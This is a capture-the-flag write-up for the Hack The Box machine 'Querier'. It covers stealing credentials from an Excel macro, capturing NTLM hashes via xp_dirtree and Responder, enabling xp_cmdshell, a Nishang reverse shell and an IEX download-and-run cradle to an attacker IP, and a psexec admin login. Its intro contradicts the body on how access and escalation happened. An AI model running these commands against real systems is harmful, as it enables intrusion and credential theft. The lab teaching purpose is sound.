 ```yaml
---
title: "Querier"
date: 2024-06-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "querier", "htb walkthrough", "hackthebox", "writeup"]
---
```


Querier revolves around a vulnerable MS SQL Server configured for remote access and weak credentials.
Initial access was obtained through brute-force of SQL creds and exploitation of xp_cmdshell for command execution.
Enumeration revealed file shares and group memberships that hinted at privilege boundaries within the domain.
Escalation was accomplished via weak permissions on a service binary, allowing path hijacking.
Querier is an excellent case study in SQL server abuse, showing how database misconfigurations can lead directly to OS-level compromise.

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763

| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB

![screenshot](/assets/images/querier1.png)

![screenshot](/assets/images/querier2.png)

![screenshot](/assets/images/querier3.png)

#### Currency Volume Report.xlsm 

Unzip the file 

```sh
unzip 'Currency Volume Report.xlsm'
```

![screenshot](/assets/images/querier4.png)

In weaponized Excel documents, macros are typically stored in the `xl/vbaProject.bin` file within the `.xlsx` or `.xlsm` archive.  

By extracting this binary and running `strings` or VBA deobfuscation tools on it, attackers can enumerate embedded macro code — revealing IOCs such as staging URLs, encoded payloads, or persistence logic.  

```sh
strings x1/vbaProject.bin
```

![screenshot](/assets/images/querier5.png)

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

## SQL

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

```sh
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier6.png)

Although we don’t have `sa` or administrative privileges and can’t enable `xp_cmdshell`, we can still leverage the SQL Server’s trust behavior to initiate outbound authentication attempts.  

By invoking stored procedures like `xp_dirtree` or `xp_fileexist` with a UNC path pointing to an attacker-controlled SMB server, we force the MSSQL service account to reach out — leaking its NTLM hash in the process.  

This technique is especially valuable when command execution is blocked but network-based lateral movement or credential capture is still viable.

```sql
exec xp_dirtree '\\10.10.14.42\share\file'
```

and fire up Responder locally.

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/querier7.png)

### Cracking the hash

![screenshot](/assets/images/querier8.png)

## Foothold

With the recovered credentials `mssql-svc:corporate568`, we’re able to authenticate to the MSSQL service remotely.  

The next step is to determine our privilege level — specifically, whether the account has `sysadmin` (sa) rights, which would allow direct command execution via procedures like `xp_cmdshell`.  

Understanding this permission boundary is crucial, as it determines whether we pursue direct code execution or pivot to more subtle enumeration or relay-based attacks.

```sh
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier9.png)

enable `xp_cmdshell`

```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![screenshot](/assets/images/querier10.png)

Now we can execute a TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script and add this line to the end of it. 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 4444
```

![screenshot](/assets/images/querier11.png)

Run a simple HTTP server and execute it using powershell.

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.42/Invoke-PowerShellTcp.ps1\')
```

![screenshot](/assets/images/querier12.png)

## Privilege Escalation

After getting a shell [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) is used to enumerate further. Download the script and execute it on the server uinsg `Invoke-AllChecks`

```powershell
wget https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1

python3 -m http.server 80
iex(new-object.net.webclient).downloadstring("http://10.10.14.42/PowerUp.ps1")
```

![screenshot](/assets/images/querier13.png)

![screenshot](/assets/images/querier14.png)

Login as admin

```sh
impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

![screenshot](/assets/images/querier15.png)
